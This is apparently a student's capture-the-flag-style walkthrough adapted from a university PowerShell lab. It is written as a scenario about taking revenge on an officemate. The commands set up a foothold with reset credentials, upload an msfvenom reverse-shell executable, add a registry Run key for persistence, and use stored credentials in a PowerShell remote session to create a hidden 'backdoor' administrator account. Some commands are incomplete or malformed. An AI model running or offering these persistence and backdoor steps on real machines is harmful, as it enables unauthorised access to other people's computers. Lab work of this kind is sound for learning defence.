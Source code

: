 ## Introduction

We have a hands-on lab in university where we played around powershell commands. 
I modified our lab activity which revolves in powershell cmdlets command and clie then tried creating a real world scenario which you can utilize powershell as a tool for hacking.

Hope you enjoy my Walkthrough! 

### Context

You have an officemate named Tyronne whose account was recently been reset by the IT administrator.

IT team sometimes fail to follow proper security practices. They just leave sticky notes with new login credentials on employees’ desks for them to reset their passwords.

Tyronne’s primary responsibility involves remotely accessing the PC of another user referred to as “Victim”, where he executes commands via remote sessions.

You really hate this kid, before tyronne can change his password you need to find a way to create a backdoor user at victim's account.

NOTE: 

tyronne's environment was already modified:
* Windows Defender is off 
* Executing unsigned powershell commands was already allowed. 
* Don't become tyronne 

## Vector of Attack

![[/z.attachments/Pasted image 20250611172051.png]]

## Foothold


![[../z.attachments/Pasted image 20250611164942.png]]

Testing foothold
```
ssh tyronne@ip
```

## Creating persistence

* Need to create persistence to always have access to this machine anytime of the day even if he changed password (only useless if machine is off)

Create reverse shell
```
msfvenom create .exe
```

Insert Payload
```
sftp tyronne@192.168.1.100 <<< $'put file.exe
```

Create startup command
```
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v WindowsHelper /d "%USERPROFILE%\reverseshell.exe /f
```

reboot and launch metasploit


## Commands to run

```
$cred = Import-Clixml "$env:USERPROFILE\remote_cred.xml"

$session1 = New-PSsession -ComputerName 172.16.69.129 -Authentication Negotiate -Credential $cred

```


Test if you can get the user info of Victim
```
Invoke-Command -Session $session1 -ScriptBlock {Get-ComputerInfo|Select-Object csprimaryownername,
csdnshostname, Windowsbuildlabex}
```

Technically the .xml file password is encoded it is much easier to create a new user than decoding it in hashcat/jtr depends on the complexity of the password. 


New command
```
Invoke-Command -Session $session1 -ScriptBlock {New-LocalUser -Name "backdoor" -Password (ConvertTo-SecureString 'testing123' -AsPlainText -Force) -FullName "pwned" -Description "pwned by zaakceptowac" Add-LocalGroupMember -Group "Administrators" -Member "backdoor"}
```


Try if you can rdp to this machine using your credentials

## Main takeways

* Powershell is powerful
* Pivoting is easy when you already have credentials
* Always practice good security hygiene (internal/external)
